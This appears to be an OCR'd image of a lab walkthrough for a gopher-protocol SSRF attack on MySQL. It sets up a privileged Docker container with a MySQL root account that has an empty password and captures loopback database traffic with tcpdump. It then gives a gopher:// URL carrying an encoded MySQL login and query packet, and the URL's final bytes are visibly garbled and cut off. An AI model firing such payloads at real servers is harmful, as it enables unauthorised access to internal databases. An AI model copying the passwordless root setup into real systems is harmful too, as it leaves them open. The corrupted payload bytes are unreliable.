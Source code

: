 docker pull asappinc/ubuntu18

docker run --privileged --name mysqltest -it asappinc/ubuntu18

apt update

apt install -y mysql-server-5.7

service mysql start

mysql -uroot -e "ALTER USER 'root'@'localhost' IDENTIFIED WITH mysql_native_password BY '';"

mysql -uroot -e "FLUSH PRIVILEGES;"



---------------

tcpdump -i lo port 3306 -w mysql.pcap

mysql --ssl-mode=DISABLED -u root -h 127.0.0.1 -e  'show databases;'




---------------------

gopher://127.0.0.1:3306/_%a2%00%00%01%85%a2%bf%01%00%00%00%01%21%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%72%6f%6f%74%00%00%6d%79%73%71%6c%5f%6e%61%74%69%76%65%5f%70%61%73%73%77%6f%72%64%00%65%03%5f%6f%73%05%4c%69%6e%75%78%0c%5f%63%6c%69%65%6e%74%5f%6e%61%6d%65%08%6c%69%62%6d%79%73%71%6c%04%5f%70%69%64%04%31%32%31%34%0f%5f%63%6c%69%65%6e%74%5f%76%65%72%73%69%6f%6e%06%35%2e%37%2e%34%32%09%5f%70%6c%61%74%66%6f%72%6d%06%78%38%36%5f%36%34%0c%70%72%6f%67%72%61%6d%5f%6e%61%6d%65%05%6d%79%73%71%6c%21%00%00%00%03%73%65%6c%65%63%74%20%40%40%76%65%72%73%69%6f%6e%5f%63%6f%6d%6d%65%6e%74%20%6c%69%6d%69%74%03%10%f0%00%00%00%37%36%86%f7%72%06%46%17%46%16%26%17%36%57%30%10%00%00%00%1